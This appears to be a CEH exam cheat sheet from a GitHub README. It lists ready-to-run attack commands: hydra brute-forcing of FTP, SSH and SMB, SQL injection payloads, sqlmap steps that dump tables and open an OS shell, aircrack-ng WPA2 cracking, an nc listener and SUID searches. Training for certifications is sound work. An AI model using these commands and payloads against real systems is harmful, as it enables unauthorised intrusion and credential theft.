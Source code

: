 # CEH
Everything you need to Know

**FQDN**
nmap -A 10.10.1.1/24
Do the Nmap scan for the 10.10.1.1/24 for the FQDN, Then search FQDN.

**Android**
The command you've provided, "adb connect ip:5555," is used to connect an Android device to your computer over the Android Debug Bridge (ADB) via a specified IP address and port (5555 in this case). This command is typically used when you want to connect to an Android device wirelessly.
CMD: 
1: adb connect ip:5555
2: adb shell
(you may see in sd or down)
3: adb pull name/of/dir (if you stuck use sudo -i)
4: install ent (apt install ent)
5: ent file.elf (check all the elf file and choose a highest value)
6: sha384sum file.elf (highest entropy value file)

The command you've provided, "adb connect ip:5555," is used to connect an Android device to your computer over the Android Debug Bridge (ADB) via a specified IP address and port (5555 in this case). This command is typically used when you want to connect to an Android device wirelessly. CMD: step1: adb connect ip:5555 step2: adb shell

ftp
hydra -L user.txt -P pass.txt ftp://ip
to connect CMD: ftp ip
CMD: get file name (to download the file to view)

**SSH**
hydra -L uesr.txt -P pass.txt IP ssh
ssh usernmae@ip (or) ssh username@ip:22 (or) ssh usernmae@ip -p port

analyze a IOT file 
filter it as MQTT
CMD: mqtt
in info Go to publish message
then go to a MQ Telemtry transport protocol
here we go we got the msg len

Find for nmap ssh port open 
nmap -sV -p 22 ip/24
connect to ssh port 
CMD : ssh username@ip
enter the password

sudo -l (look for for checking permission) its not important

hydra -L user.txt -P pass.txt ip smb
smbclient -U username -L ip
smbclient -U username \\\\ip\\disk name
dir (or) ls
cd 
get filename


BCTextEncoder

**Zaproxy**

1- Auth Bypass-  hi'OR 1=1 --
2- Insert new details if sql injection found in login page in username tab enter- blah';insert into login values('john','apple123');--
3- Exploit a Blind SQL Injection- In the website profile, do inspect element and in the console tab write -  document.cookie
Then copy the cookie value that was presented after this command. Then go to terminal and type this command,
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --dbs
4- Command to check tables of database retrieved-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename --tables
5- Select the table you want to dump-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename -T Table_Name --dump   (Get username and password)
6- For OS shell this is the command-   sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --os-shell
6.1 In the shell type-   TASKLIST  (to view the tasks)
6.2 Use systeminfo for windows to get all os version
6.3 Use uname -a for linux to get os version

**SQL CMD:**
login and view profile 
inspect document.cookie
sqlmap -u "URL" --cookie="cooke value" --dbs
sqlmap -u "URL" --cookie="cooke value" -D databasename --tables
sqlmap -u "URL" --cookie="cooke value" -D databasename -T table name --dump

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs   (databases)
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart –tables   (tables)
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users --columns   (columns)
(dump whole table)
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users  --dump 
 OR 
(dump individual  column data)
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname  --dump 
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass  --dump

 **openstego** 
    (or)
1- Hide Data Using Whitespace Stegnography- snow -C -m "My swiss account number is 121212121212" -p "magic" readme.txt readme2.txt  (magic is password and your secret is stored in readme2.txt along with the content of readme.txt)
2- To Display Hidden Data- snow -C -p "magic" readme2.txt (then it will show the content of readme2.txt content)
3- Image Stegnography using Openstego- PRACTICE ??

**VeraCrypt**
open veracrypt 
select any volume 
then select a veracrypt file in the select file options
and then mount 
enter the password given (use the crack station to crack)

**Cracking Wifi Password**
aircrack-ng [pcap file] (For cracking WEP network)
after this you can see a BSSID
aircrack-ng -a2 -b [Target BSSID] -w [password_Wordlist.txt] [WP2 PCAP file] (For cracking WPA2 or other networks through the captured .pcap file)

1. aircrack-ng file.cap

aircrack-ng -a2 -b BSSID -w password.txt pcap file

2. aircrack-ng file.cap -w password.txt

(DDoS) tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given
(DoS) tcp.flags.syn == 1   (Which machine for dos)
http.request.method == POST   (for passwords) or click tools ---> credentials
Also



**CREDENTIALS** 

To find a login credentials username and passsword 
open the given file in wireshark 
http.request.method == POST   (for passwords) or click tools ---> credentials
go to hypertext transfer protocol 
at the end you can find here we go boom

**DoS**

Go to statistics 
IPv4 addresses
Source and Destination
Then you can apply the filter given
tcp.flags.syn == 1 and tcp.flags.ack == 0 (hint hights count)

**DDoS**

tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given
tcp.flags.syn == 1   (Which machine for dos)
http.request.method == POST   (for passwords) or click tools ---> credentials

find / -type f -perm -4000 2>/dev/null
gunzip /usr/share/wordlists/rockyou.txt.gz
unzip file.zip
fcrackzip file.zip
nc -lvnp port
find . -name flag.txt
gobuster dir -u http://ip -w wordlist
C:\> D:
D:\>
cd /d D:\Your\Desired\Directory



Domain user account 
login rdp (username and pass will be given)
cmd :net user

cryp-tool ECB(.hex) format FTP

oprn cryptool
Encrypt/Decrypt
symmetric (morden)
DES (ECB)
can can get the ftp credintial
